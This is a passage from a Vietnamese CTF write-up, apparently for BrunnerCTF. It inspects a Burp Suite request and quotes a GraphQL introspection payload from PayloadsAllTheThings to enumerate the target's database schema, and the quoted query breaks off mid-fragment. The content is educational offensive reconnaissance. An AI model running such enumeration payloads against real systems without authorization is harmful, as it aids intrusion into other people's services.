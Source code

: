 Quay trở lại Burpsuite ta thấy phần request và respone như bên dưới
![alt text](/assets/img/posts/BrunnerCTF/image-1.png)
Khi tìm kiếm trong **PayloadsAllTheThings**[^1] thì mình kiếm được một payload khá là hữu ích để liệt kê toàn bộ lược đồ của cơ sở dữ liệu (**Database Schema**)

```
fragment FullType on __Type {
  kind
  name
  description
  fields(includeDeprecated: true) {
    name
    description
    args {
      ...InputValue
    }
    type {
      ...TypeRef
    }
    isDeprecated
    deprecationReason
  }
  inputFields {
    ...InputValue
  }
  interfaces {
    ...TypeRef
  }
  enumValues(includeDeprecated: true) {
    name
    description
    isDeprecated
    deprecationReason
  }
  possibleTypes {
    ...TypeRef
  }
}
fragment InputValue on __InputValue {
  name
  description
  type {
    ...TypeRef
  }
  defaultValue
}
fragment TypeRef on __Type {
  kind
```

[^1]: https://swisskyrepo.github.io/PayloadsAllTheThings/GraphQL%20Injection/#identify-an-injection-point